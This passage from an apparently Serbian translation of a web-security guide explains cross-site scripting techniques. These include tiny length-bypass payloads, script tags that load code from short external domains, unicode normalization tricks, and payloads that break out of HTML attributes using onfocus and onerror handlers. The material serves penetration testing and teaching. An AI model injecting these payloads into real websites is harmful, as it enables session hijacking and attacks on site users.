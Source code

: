 ```javascript

//Using `` instead of parenthesis
onerror=alert`1`

//Use more than one
<<TexTArEa/*%00//%00*/a="not"/*%00///AutOFocUs////onFoCUS=alert`1` //
```

### Bypass dužine (mali XSS-ovi)

{% hint style="info" %}
**Više sitnih XSS-ova za različite okoline** payload [**može se pronaći ovde**](https://github.com/terjanq/Tiny-XSS-Payloads) i [**ovde**](https://tinyxss.terjanq.me).
{% endhint %}

```html
<!-- Taken from the blog of Jorge Lajara -->
<svg/onload=alert``>
<script src=//aa.es>
<script src=//℡㏛.pw>
```

Poslednji način je korišćenje 2 Unicode karaktera koji se proširuju na 5: telsr\
Više ovakvih karaktera možete pronaći [ovde](https://www.unicode.org/charts/normalization/).\
Da biste proverili koje karaktere su dekomponovane, proverite [ovde](https://www.compart.com/en/unicode/U+2121).

### Klikni XSS - Clickjacking

Ako za iskorišćavanje ranjivosti treba **korisnik da klikne na link ili formu** sa unapred popunjenim podacima, možete pokušati da **zloupotrebite Clickjacking** (ako je stranica ranjiva).

### Nemoguće - Dangling Markup

Ako smatrate da **je nemoguće kreirati HTML tag sa atributom za izvršavanje JS koda**, trebalo bi da proverite [**Danglig Markup**](../dangling-markup-html-scriptless-injection/) jer biste mogli **iskoristiti** ranjivost **bez** izvršavanja **JS** koda.

## Ubacivanje unutar HTML taga

### Unutar taga/izlazak iz vrednosti atributa

Ako ste **unutar HTML taga**, prva stvar koju možete pokušati je da **izađete** iz taga i koristite neke od tehnika navedenih u [prethodnom odeljku](./#injecting-inside-raw-html) za izvršavanje JS koda.\
Ako **ne možete izaći iz taga**, možete kreirati nove atribute unutar taga kako biste pokušali izvršiti JS kod, na primer koristeći neki payload kao (_napomena da u ovom primeru su dvostruki navodnici korišćeni za izlazak iz atributa, nećete ih trebati ako se vaš unos odražava direktno unutar taga_):

```bash
" autofocus onfocus=alert(document.domain) x="
" onfocus=alert(1) id=x tabindex=0 style=display:block>#x #Access http://site.com/?#x t
```
